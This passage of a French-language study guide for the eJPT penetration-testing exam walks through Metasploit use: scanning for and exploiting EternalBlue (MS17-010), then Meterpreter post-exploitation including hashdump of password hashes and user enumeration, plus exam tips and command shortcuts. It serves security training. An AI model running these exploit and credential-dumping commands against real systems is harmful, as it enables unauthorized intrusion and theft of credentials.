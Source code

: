 ### Phase 3: Exploitation
```bash
# Check EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
run

# Exploit si vulnérable
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit
```

### Phase 4: Post-exploitation
```bash
# Dans la session Meterpreter
sysinfo
getuid
hashdump

# Ou utiliser des modules post
background
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```

---

## 🎯 16. Conseils spécifiques eJPT

### Modules prioritaires à connaître
1. **Scanner SMB** : `smb_version`, `smb_enumshares`, `smb_ms17_010`
2. **Scanner HTTP** : `http_version`, `dir_scanner`
3. **Exploits SMB** : `ms17_010_eternalblue`, `ms08_067_netapi`
4. **Post-exploitation** : `local_exploit_suggester`, `hashdump`

### Raccourcis utiles
```bash
# Setup rapide
workspace -a ejpt && setg RHOSTS target_ip && setg LHOST attacker_ip

# Scan complet
db_nmap -sV -sC -O target && search type:exploit platform:windows

# Quick SMB check
use auxiliary/scanner/smb/smb_version && run && use auxiliary/scanner/smb/smb_ms17_010 && run
```

### Points d'attention
- **Toujours utiliser la base de données** : `db_nmap` vs `nmap`
- **Workspaces séparés** pour chaque cible
- **Sessions background** pour utiliser des modules post
- **Local exploit suggester** pour l'escalation de privilèges
- **Documentation** avec `hosts`, `services`, `vulns`

**🎯 Conseil final** : Metasploit est l'outil central de l'eJPT. Maîtriser ces modules et workflows te donnera un avantage énorme pendant l'examen !